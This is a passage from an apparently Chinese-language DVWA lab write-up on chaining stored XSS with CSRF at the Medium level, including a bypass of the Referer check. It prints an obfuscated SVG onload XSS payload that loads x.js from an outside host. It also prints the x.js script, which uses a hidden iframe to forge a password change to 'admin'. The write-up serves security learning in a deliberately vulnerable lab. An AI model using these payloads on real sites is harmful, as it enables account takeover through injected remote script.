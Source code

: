 
![image-20211110123659203](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207032000310.png)

运行时从网络中可以看出，每当访问XSS（Stored）页面时，都会对本地服务器的x.js发起请求，然后请求访问../csrf/?password_new=admin&password_conf=admin&Change=Change&user_token='+t的页面，从而修改密码，达到了实验目的。

![image-20211109220448097](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207032000318.png)



#### （3）Medium

先看源码：

![image-20211109125220855](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207032000449.png)

Medium的代码和Low、High相比，在一开始多了check请求来源的操作。

用burp suite抓包后可以看到，request多了Referer字段：

![image-20211109125339143](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207032000836.png)

假设A站上有B站的链接，在A站上点击B站的链接，请求头会带有Referer，而Referer的值为A站的链接。referer的绕过只需要在恶意网站的访问路径上创建成包含原本referer中有的字段名就可以了。

这里仿照High的做法，利用DVWA的XSS（Stored）平台进行注入可以轻松绕过。

payload：

```html
<svg/onload="setTimeout(function(){s='&#115;&#99;&#114;&#105;&#112;&#116;'},3000)">
<svg/onload="setTimeout(function(){j=document.createElement(s)},4000)">
<svg/onload="setTimeout(function(){j.src='http://192.168.112.136:8080/x.js'},5000)">
<svg/onload="setTimeout(function(){document.body.appendChild(j)},6000)">
```

（payload和High中一致）

`x.js`代码：（做了一点点修改，只需要删掉和token相关的部分即可）

```js
//创建<iframe>元素
ifr = document.createElement('iframe');
//../csrf为相对地址
ifr.src="../csrf";
//隐藏iframe
ifr.hidden=1;
//把创建的ifr元素加入body的尾部
document.body.appendChild(ifr);
//从下图的网页源代码中可以看到user_token，通过getElementsByName()获取值，放入伪造的链接
setTimeout(function(){i=document.createElement('img');i.src='../csrf/?password_new=admin&password_conf=admin&Change=Change#';},3000)
```

运行成功，请求过程和High中一致：

![image-20211109221514748](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207032000825.png)
